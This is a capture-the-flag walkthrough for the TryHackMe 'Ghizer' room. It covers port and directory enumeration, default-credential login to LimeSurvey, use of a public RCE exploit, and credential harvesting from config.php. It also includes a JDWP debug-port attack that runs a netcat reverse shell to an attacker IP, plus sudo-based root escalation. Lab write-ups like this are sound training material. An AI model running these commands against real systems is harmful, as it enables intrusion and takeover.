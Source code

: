 # 51 - Ghizer (java-rmi/java rmi, JDWP Debug Port exploitation)

Room Link --> [https://tryhackme.com/room/ghizerctf](https://tryhackme.com/room/ghizerctf)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -Pn -n -v 10.10.160.244 -p- -sV

Not shown: 65524 closed tcp ports (conn-refused)
PORT      STATE    SERVICE    VERSION
21/tcp    open     ftp?
80/tcp    open     http       Apache httpd 2.4.18 ((Ubuntu))
443/tcp   open     ssl/http   Apache httpd 2.4.18 ((Ubuntu))
18002/tcp open     java-rmi   Java RMI
35797/tcp open     java-rmi   Java RMI
44993/tcp open     tcpwrapped
```
{% endcode %}

#### Dirsearch enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
dirsearch -u http://10.10.160.244 -x 403 -w /usr/share/dirb/wordlists/common.txt -t 500 -x 503

/assets
/admin
/application
/docs
/framework
/installer
/index.php
/locale
/plugins
/server-status
/upload
/themes
/tmp
/tests
# all dead ends :(
```
{% endcode %}

The `/admin` dir. Googled default password for LimeSurvey and got `admin : password` .

And it worked.

<figure><img src=".gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

### Initial Access

Search for an exploit for the specific version on google and got: [https://www.exploit-db.com/exploits/46634](https://www.exploit-db.com/exploits/46634)

And we get access to a very limited shell.

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Search for 'config.php' file.

{% code overflow="wrap" lineNumbers="true" %}
```bash
$ find / -type f -iname 'config.php' 2>/dev/null

$ cat /var/www/html/limesurvey/application/config/config.php
```
{% endcode %}

<figure><img src=".gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

`Anny :  P4$W0RD!!#S3CUr3!` .

#### Wordpress enum

Goto the webserver on port 443: `https://10.10.160.244/` - we get the wordpress site, clicking on the login, and we get redirected to the login panel.

<figure><img src=".gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can upload a reverse shell in zip format in order to get a rev shell.

<figure><img src=".gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to Veronica

We use “**linpeas.sh**” script and we enumerated connections in use of **ghidraDebug** with **Veronica** user.

<figure><img src="https://1.bp.blogspot.com/-11q8WG15zDo/X7irvP-1DRI/AAAAAAAAq30/ETruuKRub1kPHc-TLgbk14heRi0lMvw1gCLcBGAsYHQ/s16000/13.png" alt=""><figcaption></figcaption></figure>

We enumerate **GhidraDebug** service internal on port **18001**.

<figure><img src="https://1.bp.blogspot.com/-kjnBRfJ-I30/X7ir4R_RviI/AAAAAAAAq4A/HSOZQFjbyegl_ImA-Fw9LRI12_PXzRk6wCLcBGAsYHQ/s16000/14.png" alt=""><figcaption></figcaption></figure>

We exploit it from the victim box.

{% code overflow="wrap" %}
```bash
jdb -attach 127.0.0.1:18001
classpath
classes
stop in org.apache.logging.log4j.core.util.WatchManager$WatchRunnable.run()
# wait for a "Logj2-Tf" terminal.
print new java.lang.Runtime().exec("nc.traditional 10.18.88.214 9001 -e /bin/sh")

# setup nc listener.
nc -nvlp 9001
```
{% endcode %}

<figure><img src=".gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to Root

`sudo -l` - there is the `env-reset` also, meaning we can create new env path for files.

<figure><img src=".gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can execute this cmd as root. We cant modify the file but we can delete it and replace it with a modified one to get root.

{% code overflow="wrap" %}
```bash
veronica@ubuntu:~$ rm -rf /home/veronica/base.py
veronica@ubuntu:~$ echo 'import pty;pty.spawn("/bin/bash")' > base.py
veronica@ubuntu:~$ sudo -u root /usr/bin/python3.5 /home/veronica/base.py
root@ubuntu:~# 
```
{% endcode %}

<figure><img src=".gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Done !

